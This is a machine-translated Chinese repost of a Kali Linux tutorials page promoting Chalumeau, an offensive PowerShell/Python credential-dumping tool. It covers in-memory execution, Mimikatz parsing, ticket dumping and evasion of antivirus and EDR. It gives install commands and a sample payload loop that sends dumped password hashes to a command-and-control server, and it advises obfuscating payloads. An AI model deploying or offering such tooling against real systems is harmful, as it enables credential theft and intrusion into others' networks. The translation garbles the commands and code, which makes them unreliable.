

# Chalumeau:自动化、可扩展和可定制的凭证转储工具

> 原文：<https://kalilinuxtutorials.com/chalumeau/>

Chalumeau 是基于 powershell 和 python 的自动化、可扩展和可定制的凭证转储工具。

**主要特点**

*   编写您自己的有效负载
*   内存中执行
*   提取密码列表
*   仪表板报告/ Web 界面
*   解析 Mimikatz
*   倾倒门票

**已知问题**

*   解析 Mimikatz dcsync(正在修复)
*   绕过防病毒和 EDRs，您将需要维护您的有效载荷

**待办事项**

*   加密通信
*   自动横向移动
*   自动化密码喷涂
*   自动哈希破解

**使用**

git 克隆 https://github.com/cyberstruggle/chalumeau.git
CD chalumeau/
chmod+x install . sh
sudo。/install . sh

# Run
chmod+x start . sh
sudo。/start.sh

**编写自己的有效载荷**

混淆您自己的 powershell 有效负载以转储凭据，并在没有任何导入的情况下使用 chalumeau 函数调用 chalumeau 将加密并与 c2 联系，然后发送转储的凭据。只需将文件保存在 chalumeau-power/payloads 下

*   使用 ChalumeauSendCredentials 函数
    *   ChalumeauSendCredentials
        *   Secret =转储的哈希或明文密码(字符串)
        *   Username =转储凭据的 id 的用户名(字符串)
        *   如果是明文，IsClearText = 1，否则为 0(int)
        *   Source =提及源负载，如“Mimikatz Hash”(字符串)

**#** 自定义负载示例
#$ dumped hashes 是来自本地机器的转储散列的数组
foreach($ hash in $ dumped hashes){
ChalumeauSendCredentials-Secret $ hash . Secret-Username $ hash . user-IsClearText 0-source " My Custom Payload "
}

**学分**

*   瓦泽尔[作者](https://twitter.com/safe_buffer)
*   丹尼尔·博汉南
*   invoke-Mimikatz[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
*   Get-PassHashes [霓裳](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
*   夏鲁摩标志[奥雷连诺](https://twitter.com/aurelbedelia)
*   调用-MassMimikatz [电动工具](https://github.com/PowerShellEmpire/PowerTools/blob/master/PewPewPew/Invoke-MassMimikatz.ps1)

[**Download**](https://github.com/cyberstruggle/chalumeau)